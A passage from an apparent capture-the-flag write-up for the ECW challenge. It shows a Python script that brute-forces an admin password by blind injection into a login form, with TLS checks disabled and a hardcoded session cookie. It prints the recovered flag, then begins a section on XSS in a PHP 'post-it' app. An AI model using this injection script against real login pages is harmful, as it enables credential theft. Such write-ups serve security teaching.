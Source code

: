 Now we will extract the characters one by one with the "substring" method, e.g:substring("ABCD",2,1)='B'
{% highlight python%}
#!/usr/bin/python
# -*- coding: utf-8 -*-
import sys, getopt
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

if __name__ == "__main__":
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
  url = "https://challenge-ecw.fr/chals/web100"
  session = ".eJwVj0Frg0AQRv9KmbOHRC0EoZeiCVuYkbQTZfZmEqO7ugYixdWQ_157e_AeH3xPGO7DpYbkCW9nSACtbiksHKYqkkVFyM2GWCI8HL2UXzZnmZC_HTpywkWnbRMSX2Ys1X-zwZAM8b5d-R0XFVJ62mJ49JRmPk-zrbhTrK3EyDjrUqKcVaSZ2vxQ9GKVF247YTJ52jpZPh2x8sTZIm5v9LolNptk6Tu03Qe8Avgd68dQufUA_ExmHLsZAqiuzgyQ3Kp-rAPoq6FZ9e2xGnOFZBe__gBfKVAP.DLpGFw.xgJdaSDoDQNmN4w0D1OTDWYWiIs"

  passwdlen = 37
  password=""
  for i in range(passwdlen-5,passwdlen+20):
    for c in range(32,250):
      payload = {
        'nonce':'26a7ef027c271845670d1abc96014f2cfa5df865721b70d43cb51a0d93264553d1411815be8f68132ef7927e3a8eeb21a8da3b88fc0f521513babd55b10c9d29',
        'username': 'admin',
        'password': "' or substring(password,"+str(i)+",1)='"+chr(c)
      }
      r = requests.post(url, data=payload, cookies = {'session': session}, verify=False ).text
      print payload['password']

      if not "invalide" in r:
        password += chr(c)
        print password
        break
{% endhighlight %}
With this we get BCPP6f5f5724aa2fa973bb9471746c2cb4a0} which looks like a flag, we can easily correct the first chars : ECW{6f5f5724aa2fa973bb9471746c2cb4a0}




## Web 150 - GoldFish

GoldFish was a Web Application written in PHP, where you can write a "post-it" which will self-destroy after 30sec.
For this challenge I created a user named "glopglopglop" this will be needed for the exploitation ;)

First I tried to exploit an XSS, you could write a "Post" with the following input:
{% highlight php%}
postname: reflected in the url
content : reflected in the page
{% endhighlight %}
The "Post" would be available at "/posts/user/postname" (this URL was found when you submit the same post twice in less than 30sec)
